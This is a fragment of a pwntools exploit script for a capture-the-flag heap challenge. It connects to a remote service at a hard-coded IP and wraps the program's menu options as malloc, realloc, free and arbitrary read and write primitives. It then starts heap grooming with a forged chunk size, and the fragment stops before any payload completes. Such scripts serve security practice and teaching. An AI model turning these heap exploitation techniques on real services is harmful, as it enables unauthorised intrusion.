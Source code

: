 ```python
    gdbscript += 'directory %sstdlib/\n' % glibc_dir
    gdbscript += 'directory %slibio/\n' % glibc_dir
    elf_base = int(os.popen('pmap {}| awk \x27{{print \x241}}\x27'.format(p.pid)).readlines()[1], 16) if elf.pie else 0
    gdbscript += 'b *{:#x}\n'.format(int(breakpoint) + elf_base) if isinstance(breakpoint, int) else breakpoint
    gdb.attach(p, gdbscript)
    time.sleep(1)

elf = ELF('./pwn')
context(arch = elf.arch, os = 'linux',log_level = 'debug',terminal = ['tmux', 'splitw', '-hp','62'])
# p = process('./pwn')
# debug(0x1040)
p = remote('39.106.156.74',26899)

def menu(c):
    sla('Click: ',str(c))

def login():
    menu('Login')
    sla('Card Numbers: ',str(123456))
    sla('Password: ',str(123456))

def get_money():
    menu('Put')
    sla('How Much? ',str(400))

def menu_t(c,m):
    menu('Transfer')
    sla('who? ',str(c))
    sla('How much? ',str(m))

# admin
def read_addr(offset):
    menu_t('admin',offset)

# ghost
def realloc(size):
    menu_t('ghost',11)
    sla('ghost: &^%$#@!   :)\n',str(size))

# guest
def malloc(data):
    menu_t('guest',6)
    sla('data: ',str(data))

# hacker
def free(addr):
    menu_t('hacker',51)
    sla('hacker: Great!',str(addr))
# abyss
def write(addr):
    menu_t('abyss',0)
    sl(str(addr))

# 2.31 ?
login()
get_money()
realloc(0xc8)
malloc(p64(0)+p32(0x491))
malloc('prepare')
malloc('prepare')
```